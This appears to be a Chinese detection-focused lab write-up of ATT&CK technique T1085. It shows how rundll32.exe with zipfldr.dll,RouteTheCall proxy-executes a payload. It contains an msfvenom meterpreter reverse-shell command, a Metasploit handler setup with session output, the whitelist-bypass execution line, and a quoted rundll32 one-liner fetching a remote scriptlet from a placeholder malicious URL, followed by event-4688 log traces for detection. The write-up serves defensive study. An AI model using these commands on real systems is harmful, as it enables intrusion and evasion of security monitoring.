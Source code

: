 # T1085-win-基于白名单Zipfldr.dll执行Payload

## 来自ATT&CK的描述

Rundll32.exe程序可以调用来执行任意二进制文件。攻击者可能会利用此功能来代理执行代码，从而避免触发那些可能不会监控rundll32.exe进程执行的安全工具，因为正常操作中使用rundll32.exe的Windows会有白名单或误报。

Rundll32.exe可用于通过未记录的shell32.dll函数Control_RunDLL和 Control_RunDLLAsUser来执行控制面板项目文件（.cpl）。双击.cpl文件也会触发rundll32.exe执行。

Rundll32也可用于执行JavaScript等脚本。可以使用类似于下面的语法来完成：rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" 。这种方法已被恶意软件如Poweliks所使用。

## 测试案例

zipfldr.dll自Windows xp开始自带的zip文件压缩/解压工具组件，同样该工具支持WinXP-Win10 全版本，zipfldr.dll所在路径已被系统添加PATH环境变量中，因此zipfldr.dll命令可识别，但由于为dll文件，需调用rundll32.exe来执行。

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

 Windows 2003 默认位置：

C:\Windows\System32\zipfldr.dll

C:\Windows\SysWOW64\zipfldr.dll

Windows 7 默认位置：

C:\Windows\System32\zipfldr.dll

C:\Windows\SysWOW64\zipfldr.dll

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：windows server 2012

### 攻击分析

#### 生成payload.dll

```bash
root@12306Br0:~# msfvenom -p windows/meterpreter/reverse_tcp -b '\x00\x0b' LHOST=192.168.126.146 LPORT=4444 -f exe > shell.exe
```

#### 执行监听

攻击机,注意配置set AutoRunScript migrate f (AutoRunScript是msf中一个强大的自动化的后渗透工具，这里migrate参数是迁移木马到其他进程)

```bash
msf5 > use exploits/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > set AutoRunScript migrate f
AutoRunScript => migrate f
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
rundll32.exe zipfldr.dll,RouteTheCall .\shell.exe #shell.exe存放路径下执行
```

#### 反弹shell

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Sending stage (180291 bytes) to 192.168.126.156
[*] Meterpreter session 6 opened (192.168.126.146:4444 -> 192.168.126.156:49176) at 2020-04-13 10:54:22 +0800
[*] Session ID 6 (192.168.126.146:4444 -> 192.168.126.156:49176) processing AutoRunScript 'migrate f'
[!] Meterpreter scripts are deprecated. Try post/windows/manage/migrate.
[!] Example: run post/windows/manage/migrate OPTION=value [...]

meterpreter > getuid
Server username: WIN-IFPMACUK8BT\Administrator

```

## 测试留痕

安全日志能够清晰的记录命令行参数，截取windows安全事件4688进程创建部分内容：

```log
进程信息: #4688-1
新进程 ID:0x918
新进程名称:C:\Windows\System32\rundll32.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x948
进程命令行:rundll32.exe  zipfldr.dll,RouteTheCall .\shell.exe

进程信息: #4688-2
新进程 ID:0x94c
新进程名称:C:\Users\Administrator\Desktop\a\shell.exe
令牌提升类型:TokenElevationTypeDefault (1)
创建者进程 ID:0x918
进程命令行:"C:\Users\Administrator\Desktop\a\shell.exe"
```

## 检测规则/思路

无具体检测规则，可根据进程创建事件4688/1（进程名称、命令行）进行监控。本监控方法需要自行安装配置审核策略/sysmon。

## 参考推荐

MITRE-ATT&CK-T1085:<https://attack.mitre.org/techniques/T1085/>

基于白名单的Payload:<https://blog.csdn.net/weixin_30790841/article/details/101848854>
